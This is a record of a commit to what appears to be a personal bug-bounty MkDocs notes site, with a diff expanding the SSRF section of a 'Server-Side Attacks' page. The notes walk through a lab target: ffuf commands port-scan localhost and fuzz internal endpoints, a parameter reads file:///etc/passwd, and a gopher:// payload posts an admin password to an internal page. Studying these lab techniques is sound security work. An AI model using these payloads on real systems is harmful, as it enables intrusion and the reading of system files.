

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/server-side-attacks.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
testing adding images

````diff
--- a/docs/bug-bounty-guide/server-side-attacks.md
+++ b/docs/bug-bounty-guide/server-side-attacks.md
@@ -1,14 +1,44 @@
 # Server-Side Attacks
 
 ## SSRF
+
+[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)
+
+### Identification
+
+Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):
+
+- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
+- Use burp to check post parameter for dynamically loaded content.
+- Try changing the request to see if error infromation.
+- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.
+
 ### Exploitation
-- internal portscan by accessing ports on localhost
-- accessing restricted endpoints
+
+- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.
+
+- internal portscan by accessing ports on localhost:
+
+```bash
+seq 1 10000 > ports.txt
+ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
+```
+
+- accessing restricted endpoints:
+
+```bash
+ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
+```
+
+- Consider we find and endpoint admin.php through fuzzing which returns a POST form:
+
+![admin.php](../images/admin_php.png){width=300}
 
 ### Protocols
-- `http://127.0.0.1/`
-- `file:///etc/passwd`
-- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`
+
+- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
+- `file:///etc/passwd` can be used for local file inclusion
+- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services
 
 ## SSTI
 ### Exploitation
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -44,3 +44,8 @@ theme:
       toggle:
         icon: material/weather-sunny
         name: Switch to dark mode
+
+plugins:
+  - search
+markdown_extensions:
+  - attr_list
````
Also changed, not shown: docs/images/admin_php.png (added).
